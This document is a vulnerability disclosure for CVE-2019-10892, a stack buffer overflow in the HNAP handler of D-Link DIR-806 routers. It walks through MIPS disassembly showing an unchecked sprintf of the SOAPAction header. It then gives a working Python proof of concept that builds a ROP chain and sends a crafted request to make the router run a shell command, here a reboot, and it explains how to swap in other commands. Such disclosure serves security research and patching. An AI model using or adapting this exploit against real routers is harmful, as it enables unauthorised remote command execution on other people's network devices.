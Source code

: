 # DIR-806_Stack Overflow to Run Shellcode

**CVE-2019-10892**

The fireware is the lasted version of DIR-806 in DLINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
just like the start of:
```
https://github.com/Kirin-say/Vulnerabilities/blob/master/DIR-806_Code_Injection.md
```
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
then it will call the sprintf function but it won't check the length of the strings that it got by strrchr,and it store it in the stack:
```
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
```
so that we can overflow the $s0-s7 and $ra when hnap_main return:
```
.text:004124C4                 lw      $ra, 0x248+var_4($sp)
.text:004124C8                 lw      $s7, 0x248+var_8($sp)
.text:004124CC                 lw      $s6, 0x248+var_C($sp)
.text:004124D0                 lw      $s5, 0x248+var_10($sp)
.text:004124D4                 lw      $s4, 0x248+var_14($sp)
.text:004124D8                 lw      $s3, 0x248+var_18($sp)
.text:004124DC                 lw      $s2, 0x248+var_1C($sp)
.text:004124E0                 lw      $s1, 0x248+var_20($sp)
.text:004124E4                 lw      $s0, 0x248+var_24($sp)
.text:004124E8                 jr      $ra
.text:004124EC                 addiu   $sp, 0x248
```
If we make a rop chain in stack,it will finally call the system(our cmd)
## POC
```
from pwn import *
import requests
import sys
def get_payload():
  cmd="reboot;".ljust(30,"a")
  libc_addr=0x7679BA60-0x002aa60
  payload="http://purenetworks.com/HNAP1/GetDeviceSettings/"
  payload+="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"  
  payload+="aaaa"*6
  payload+=p32(libc_addr+0x003E204)[::-1]#s6
  payload+=p32(libc_addr+0x052510)[::-1]#s7
  payload+=p32(libc_addr+0x0F5B4)[::-1]#ra->get cmd in s4->jar s6
  payload+="aaaa"*4
  payload+=cmd
  return payload
data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    fake_cmd=get_payload()
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    log.info("Kirin-say PWN")
```
you can also edit the cmd to run different shell,but you should also edit the libc_addr because I write this POC by qemu,so you should edit offset of libc.so.0 in real environment.
 For example(the router reboot successfully) 
![Success](https://upload-images.jianshu.io/upload_images/7434375-a0bda011a271ec24.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

